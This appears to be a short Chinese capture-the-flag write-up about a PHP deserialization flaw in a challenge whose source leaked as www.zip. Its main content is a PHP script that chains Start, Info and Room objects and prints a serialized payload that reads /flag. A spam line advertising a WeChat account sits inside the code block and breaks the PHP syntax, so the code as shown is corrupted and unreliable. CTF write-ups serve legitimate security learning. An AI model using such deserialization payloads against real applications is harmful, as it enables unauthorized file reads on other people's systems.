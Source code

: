 ![在这里插入图片描述](img/6ae3a2f943f9ac014ec7d5b02510524a.png)

存在www.zip

存在反序列化漏洞，很容易找到pop链

```
<?php

class Start
{
    public $name='guest';
    public $flag='';

}

class Info
{
    public $promise='I do';
    public $file=[];

}+WX:machinegunjoe666免费获取资料

class Room
{
    public $filename='/flag';
    public $sth_to_set;
    public $a='';

}
$s=new Start();
$i=new Info();
$r=new Room();
$r1=new Room();
$s->name=$i;
$i->file["filename"]=$r;
$r->a=$r1;
$r1->filename="/flag";
print(serialize($s));

?>
```
